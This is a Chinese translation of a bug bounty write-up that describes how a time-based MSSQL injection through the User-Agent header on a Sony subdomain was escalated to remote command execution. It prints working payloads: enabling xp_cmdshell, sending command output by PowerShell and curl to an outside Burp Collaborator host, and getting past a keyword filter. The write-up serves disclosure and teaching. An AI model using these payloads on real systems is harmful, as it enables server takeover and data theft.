







# 我如何将基于时间的 SQL 注入升级到 RCE

> 原文：<https://infosecwriteups.com/how-i-escalated-a-time-based-sql-injection-to-rce-bbf0d68cb398?source=collection_archive---------0----------------------->

大家好！我希望你们都过得很好。

今天，我将分享我的一份关于索尼[的报告，这是一个在](https://en.wikipedia.org/wiki/Sony) [HackerOne](https://hackerone.com/) 中的公共程序，以及我如何将其从盲目的基于时间的 SQL 注入升级到完整的远程操作系统命令执行的方法。

我将编辑重要的细节，如域，子域，命令输出，我的 IP 地址，服务器 IP 地址，等等。

# **侦查阶段:**

对于侦察阶段，我使用`sublist3r`来查找给定域的子域。

我检查了所有的子域，但都是死链接。失望之余，我尝试了其他侦察工具，比如`amass`。令人惊讶的是，它给了我更好的结果

`amass`给了我在简单的谷歌查询中看不到的子域名。(这个我就不截图了，抱歉)。它给了我一个这样的子域:

`special.target.com`

# 熟悉目标

现在我访问了网站，它看起来像一个管理面板或员工登录页面

我尝试了经典的`'`符号来检查 sql 错误。我进入了`username=123'&password=123'`

我检查了 burpsuite 请求，端点返回了一个有意义的 500 错误页面。为什么硕果累累？开发人员忘记关闭他们的调试模式或什么的，这允许我查看完整的查询，以及文件的完整路径。

该端点易受 Microsoft SQL 注入的攻击。

# 实际剥削

我尝试对 username 参数进行简单的布尔 SQL 注入，但是没有成功。任何有效负载都显示错误。我再次查看查询错误，发现我的`User-Agent`头被传递给了数据库。我给我的用户代理添加了单引号和注释`‘--`，它返回了通常的正确页面。

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***'--***`

这很好地表明服务器执行用户提供的输入。接下来，我检查了基于时间的 SQL 注入，看是否可以堆叠查询

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***';WAITFOR DELAY ‘00:00:05’;--***`

那么响应会延迟大约 5 秒

这证实了我们可以堆叠 SQL 查询并注入任何我们想要的命令。

# 将 SQL 注入升级到 RCE

既然我们知道我们可以堆栈查询，让我们在这里找到一种执行 OS 命令的方法。与 MySQL 不同，MSSQL 提供了一种执行命令的方式。我基于[Prashant Kumar](https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e)[的这篇](https://medium.com/u/8a66e9bc8058?source=post_page-----bbf0d68cb398--------------------------------)文章

我刚刚发现我们可以使用`xp_cmdshell`执行操作系统命令，所以我在他们的服务器上启用了 xp_cmdshell

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***'; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE;--***`

然后我用`ping`测试了一个盲人 RCE

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***'; EXEC xp_cmdshell 'ping myburpcollablink.burpcollaborator.net';--***`

嘣！我们找到了那个伪君子合作者的客户。这证实了我们可以做 RCE。

不像上面的[将命令输出存储在数据库中，我采用了一种非破坏性的方式来读取 OS 命令输出。](https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e)

我通过将输出分配给`powershell`中的`variable`并使用`curl`将它们发送到我的 BurpCollaborator 来实现这个

工作原理是这样的:
`powershell -c “$x = whoami; curl [http://my-burp-link.burpcollaborator.net/get?output=$x](http://ryt2vq7j7b3jlk4zeilrk5hm7dd51u.burpcollaborator.net/get?output=$x)”`

上面的命令获得了`whoami`的输出，并将它们发送到我的 burpcollab 链接

**最终的 RCE 有效载荷看起来是这样的:**

`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36***';EXEC xp_cmdshell ‘powershell -c “$x = whoami; curl*** [***http://my-burp-link.burpcollaborator.net/get?output=$x***](http://gn76thrltjpf9j5jccvusaxpggm7aw.burpcollaborator.net/get?output=$x)***"';--***`

命令输出如预期的那样返回给了我

我还可以检索他们的`AWS EC2 instances’ metadata information`，查看服务器文件，等等。

# 绕过“修复”

几天后，索尼告诉我他们部署了一个补丁。我尝试了我的旧有效载荷，它被防火墙阻止了。我看到他们的过滤器中包含了关键字`EXEC xp_cmdshell`。

我通过声明一个值为`xp_cmdshell`的变量`@x`并做类似于`EXEC @x`的事情来绕过过滤器

`‘; DECLARE [@x](http://twitter.com/x) AS VARCHAR(100)=’xp_cmdshell’; EXEC [@x](http://twitter.com/x) ‘ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net’ —`

**时间线:**

*   **2021 年 9 月 14 日** - >首次报道
*   **2021 年 9 月 16 日** - >被哈克松审判
*   **2021 年 9 月 21 日** - >初始补丁部署(绕过)
*   **2021 年 9 月 23 日** - >部署了另一个补丁(再次绕过)
*   **2021 年 9 月 26 日** - >最终补丁部署完毕
*   **2021 年 9 月 27 日** - >标记为已解决，并已获得奖金

非常感谢索尼让我们测试你的资产。谢谢你的礼物